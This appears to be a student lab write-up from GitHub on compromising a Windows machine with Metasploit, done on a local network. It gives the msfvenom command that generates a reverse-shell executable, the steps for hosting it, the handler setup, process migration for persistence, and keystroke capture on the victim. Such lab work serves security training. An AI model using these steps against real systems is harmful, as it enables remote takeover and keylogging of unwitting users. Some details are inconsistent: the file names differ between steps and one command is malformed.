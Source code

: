 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/6b3f8eaf-7a0f-429b-b0de-58de105f3a13)

Create a malicious executable file fun.exe using msenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > malware.exe

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/53b6cb38-f126-4834-814b-8503cbec50db)


copy the malware.exe into the apache /var/www/html folder

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/80f20aec-7d05-452f-b3c6-0e57db10918f)


Start apache server

sudo systemctl apache2 start

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/1c4911cc-3478-4c68-81f6-4c056e535aa8)

Check the status of apache2

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/5195be21-f553-49d1-b582-cbab3210df94)

Invoke msfconsole:

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/0b89dd5e-f28d-4bc3-8b15-80df659785d0)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server

use multi/handler

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/7e0d0736-5601-4752-9eab-ca1ef83bfc2f)

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 0.0.0.0

exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:

http://192.168.1.2/fun.exe

The file "fun.exe" downloads.

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/23e0e6a4-04e0-4010-a788-0f19835f8ebe)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/eb1e5dc7-077f-40f9-8047-7ea53e2cc310)

To see a list of processes, at the meterpreter > prompt, execute this command:

ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/d7e90589-f988-4df2-869f-0904e518e713)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process.

At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

at meterpreter > prompt, execute this command:

netstat

A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.

Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/2e221868-f9da-49ab-ad5e-036cd1a8107c)

Post Exploitation

The target is now owned. Following are meterpreter commands for key capturing in the target machine

keyscan_start Begins capturing keys typed in the target.

On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/67f347a0-6b6f-4621-8a80-f5350dded4c7)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Pranav-AJ/Compromising-windows-using-Metasploit/assets/118904526/ecbc2551-a10c-424a-a62f-e1395870814a)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
